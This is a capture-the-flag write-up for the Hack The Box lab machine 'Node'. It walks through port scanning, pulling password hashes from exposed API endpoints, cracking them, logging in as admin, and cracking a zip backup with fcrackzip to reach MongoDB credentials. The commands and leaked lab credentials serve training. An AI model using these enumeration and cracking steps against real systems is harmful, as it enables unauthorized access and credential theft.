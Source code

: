 # Node
**Machine ip:** 10.10.10.58

## Enumeration
First thing first, start port scan:
+ `sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.58 -e tun0 > ports`
+ `ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')`
+ `sudo nmap -Pn -sV -sC -p$ports 10.10.10.58`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/76b5cb96-bdc1-4d88-9b42-e1a2911dab3b)

+ The result shows that 2 ports are open:
```
Port 22: OpenSSH 7.2p2
Port 3000: Apache Hadoop
```

+ Navigate to `http://10.10.10.58:3000/` and always start off with enumerating web server first.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/2f238baa-49a8-491c-820e-5d22c6b7d4fb)

+ View page source to see whether there is any useful information.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/ae96894c-7dd7-4f67-97d9-32fb22b1b2e1)

+ **Firstly**, check `http://10.10.10.58:3000/assets/js/app/controllers/home.js`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/dd4d850e-e804-4e59-9fa7-d63cc9d54e20)

+ Navigate to `http://10.10.10.58:3000/api/users/latest`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/029deb19-0572-4137-9767-6d06a2fb5ade)

+ Discovered usernames and password hashes:
```
[
  {
    "_id": "59a7368398aa325cc03ee51d",
    "username": "tom",
    "password": "f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240",
    "is_admin": false
  },
  {
    "_id": "59a7368e98aa325cc03ee51e",
    "username": "mark",
    "password": "de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73",
    "is_admin": false
  },
  {
    "_id": "59aa9781cced6f1d1490fce9",
    "username": "rastating",
    "password": "5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2f0",
    "is_admin": false
  }
]
```

+ **Secondly**, visit `http://10.10.10.58:3000/assets/js/app/controllers/profile.js` and view `http://10.10.10.58:3000/api/users/`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/57a93960-4a6b-4dc7-ba1c-7cef751d95ec)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/0145c645-9e8e-4429-a84a-424331ffa8d6)

+ Discovered usernames and password hashes:
```
[
  {
    "_id": "59a7365b98aa325cc03ee51c",
    "username": "myP14ceAdm1nAcc0uNT",
    "password": "dffc504aa55359b9265cbebe1e4032fe600b64475ae3fd29c07d23223334d0af",
    "is_admin": true
  },
  {
    "_id": "59a7368398aa325cc03ee51d",
    "username": "tom",
    "password": "f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240",
    "is_admin": false
  },
  {
    "_id": "59a7368e98aa325cc03ee51e",
    "username": "mark",
    "password": "de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73",
    "is_admin": false
  },
  {
    "_id": "59aa9781cced6f1d1490fce9",
    "username": "rastating",
    "password": "5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2f0",
    "is_admin": false
  }
]
```

+ **Thirdly**, visit `http://10.10.10.58:3000/assets/js/app/controllers/admin.js` and view `http://10.10.10.58:3000/api/admin/backup`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/c8e7da5f-7896-451a-a194-b91ba8a5259c)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/2ba5edbb-68a2-4580-bab6-118347ae369a)

+ Discovered usernames and password hashes:
```
tom:f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240
mark:de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73
rastating:5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2f0
myP14ceAdm1nAcc0uNT:dffc504aa55359b9265cbebe1e4032fe600b64475ae3fd29c07d23223334d0af
```

+ Crack hashes using [crackstation.net](https://crackstation.net):
```
f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240
de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73
5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2f0
dffc504aa55359b9265cbebe1e4032fe600b64475ae3fd29c07d23223334d0af
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/68b9f099-e845-4795-a618-6e8cefbc2cd2)

+ Cracked passwords and users:
```
tom:spongebob
mark:snowflake
myP14ceAdm1nAcc0uNT:manchester
```

+ Visit `http://10.10.10.58:3000/login` and login with the admin's account `myP14ceAdm1nAcc0uNT`:`manchester`
+ Download Backup file.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/d89bea42-0470-4e1f-8e12-35246d747736)

+ File type: `file myplace.backup`
+ View only the last 100 bytes of data from **myplace.backup**: `tail -c 100 myplace.backup`
+ It is base64 encoding.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/06207dcb-8b7a-4d85-a3fe-c857022a6c4e)

+ Decode it: `base64 -d myplace.backup > decoded.file`
+ File type: `file decoded.file`
+ Extract zip file: `unzip decoded.file`
+ It requires a password.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/09a27b2a-3c5b-4c57-9f8d-eb142218df6a)

+ Crack it using fcrackzip: `fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt decoded.file`
```
┌──(kali㉿kali)-[~/Desktop]
└─$ fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt decoded.file

PASSWORD FOUND!!!!: pw == magicword

```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/ff73b8cb-fc1c-4f88-8ea4-cdf00c831664)

+ Unzip the file with the password: `unzip -P magicword decoded.file`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/c709399b-ccce-47c1-ab28-cbd87c169155)

+ Discovered **mongodb** credentials in the **app.js** file:
```
const url         = 'mongodb://mark:5AYRft73VtFpc84k@localhost:27017/myplace?authMechanism=DEFAULT&authSource=myplace';
const backup_key  = '45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474';
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/3ad6fec3-13ff-4dbd-bd8d-29f5c298cbd3)






# References & Alternatives:
+ https://0xdf.gitlab.io/2021/06/08/htb-node.html
+ https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/linux-boxes/node-writeup-w-o-metasploit
